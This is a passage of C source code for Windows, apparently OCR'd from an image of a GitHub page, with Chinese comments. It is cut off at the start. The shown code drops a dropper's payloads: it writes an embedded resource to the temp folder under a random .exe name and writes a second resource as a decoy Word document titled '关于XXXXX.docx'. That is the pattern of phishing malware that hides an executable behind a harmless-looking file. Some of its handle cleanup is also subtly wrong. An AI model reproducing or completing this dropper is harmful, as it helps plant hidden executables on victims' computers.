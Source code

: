 ```
		switch ((rand() % 3))
		{
		case 1:
			str[i] = 'A' + rand() % 26;
			break;
		case 2:
			str[i] = 'a' + rand() % 26;
			break;
		default:
			str[i] = '0' + rand() % 10;
			break;
		}
	}
	str[i] = '\0';
	return str;
}

BOOL ReleaseLibrary(UINT uResourceId, CHAR* szResourceType, CHAR* szFileName)
{
	// 找到资源
	HRSRC hRsrc = FindResource(NULL, MAKEINTRESOURCE(uResourceId), szResourceType);
	// 获取资源大小
	DWORD dwSize = SizeofResource(NULL, hRsrc);

	// 载入资源
	HGLOBAL hGlobal = LoadResource(NULL, hRsrc);

	// 锁定资源，并返回指向资源第一字节的指针
	LPVOID lpRes = LockResource(hGlobal);
	HANDLE hFile = CreateFile(szFileName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD dwWriten = 0;
	BOOL bRes = WriteFile(hFile, lpRes, dwSize, &dwWriten, NULL);
	CloseHandle(hFile);
	CloseHandle(hGlobal);
	CloseHandle(hRsrc);
	return TRUE;
}


int APIENTRY WinMain(_In_ HINSTANCE hInstance, _In_opt_ HINSTANCE hPrevInstance, _In_ LPSTR lpCmdLine, _In_ int nShowCmd)
{
	char name[20];
	char *exe = randstr(name, 8);
	ZeroMemory(SaveFile, MAX_PATH);
	GetEnvironmentVariable(TEXT("TMP"), SaveFile, MAX_PATH);
	const char * FileName = "\\";
	strcat_s(SaveFile, FileName);
	strcat_s(SaveFile, exe);
	strcat_s(SaveFile, TEXT(".exe"));
	BOOL wRes = ReleaseLibrary(IDR_KKKPPC1, (CHAR*)"KKKPPC", (CHAR*)SaveFile);
			BOOL bRes = ReleaseLibrary(IDR_LGASD1, (CHAR*)"LGASD", (CHAR*)"关于XXXXX.docx");

}
```
